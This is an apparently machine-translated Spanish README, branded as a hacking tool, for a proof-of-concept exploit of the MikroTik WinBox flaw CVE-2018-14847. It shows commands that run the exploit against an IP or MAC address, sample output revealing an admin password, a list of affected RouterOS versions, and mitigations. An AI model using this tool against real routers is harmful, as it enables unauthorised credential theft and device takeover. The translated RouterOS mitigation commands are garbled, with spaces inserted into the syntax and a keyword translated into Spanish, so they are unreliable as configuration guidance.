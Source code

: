 # Cracker-Winbox

#PIRATAS INFORMATICOS

WinboxExploit
Esta es una prueba de concepto de la vulnerabilidad crítica de WinBox (CVE-2018-14847) que permite la lectura de archivos arbitrarios de contraseñas de texto sin formato.


## Requisitos
- Python 3+

Este script NO se ejecutará con Python 2.xo inferior.

## Cómo utilizar
El script se usa de manera simple con argumentos simples en la línea de comandos.

#### WinBox (TCP / IP)
Explote la vulnerabilidad y lea la contraseña.
`` `
python3 WinboxExploit.py <DIRECCIÓNIP> [PUERTO]
`` `
Ejemplo:
`` `
$ python3 WinboxExploit.py 172.17.17.17
Conectado a 172.17.17.17:8291
Explotar exitosamente
Usuario: admin
Pase: Th3P4ssWord
`` `

#### Servidor MAC WinBox (Capa 2)
Puede extraer archivos incluso si el dispositivo no tiene una dirección IP.

Comprobación de descubrimiento simple para dispositivos Mikrotik conectados localmente.
`` `
python3 MACServerDiscover.py
`` `
Ejemplo:
`` `
$ python3 MACServerDiscover.py
Buscando dispositivos Mikrotik (servidores MAC)

    aa: bb: cc: dd: ee: ff

    aa: bb: cc: dd: ee: aa
`` `

Explote la vulnerabilidad y lea la contraseña.
`` `
python3 MACServerExploit.py <DIRECCIÓN MAC>
`` `
Ejemplo:
`` `
$ python3 MACServerExploit.py aa: bb: cc: dd: ee: ff

Usuario: admin
Pase: Th3P4ssWord
`` `

## Versiones Vulnerables
Todas las versiones de RouterOS del 28/05/2015 al 20/04/2018 son vulnerables a esta vulnerabilidad.

Dispositivos Mikrotik con versiones de RouterOS:

- Largo plazo: 6.30.1 - 6.40.7
- Estable: 6.29 - 6.42
- Beta: 6.29rc1 - 6.43rc3

Para obtener más información, consulte: https://blog.mikrotik.com/security/winbox-vulnerability.html

## Técnicas de mitigación
- Actualice el enrutador a una versión de RouterOS que incluya la solución.
- Deshabilite el servicio WinBox en el enrutador.
- Puede restringir el acceso al servicio WinBox a direcciones IP específicas con lo siguiente:
`` `
/ ip service set winbox address = 10.0.0.0 / 8,172.16.0.0 / 12,192.168.0.0 / 16
`` `
- Puede usar algunas Reglas de filtro (ACL) para denegar el acceso externo al servicio WinBox:
`` `
/ ip firewall filter add chain = input in-interface = wan protocol = tcp dst-port = 8291 action = drop
`` `
- Se puede limitar el acceso al servicio mac-winbox especificando las interfaces permitidas:
`` `
/ herramienta mac-server mac-winbox
`` `

## Copyright
 - OcTha_DroidXz2OO5
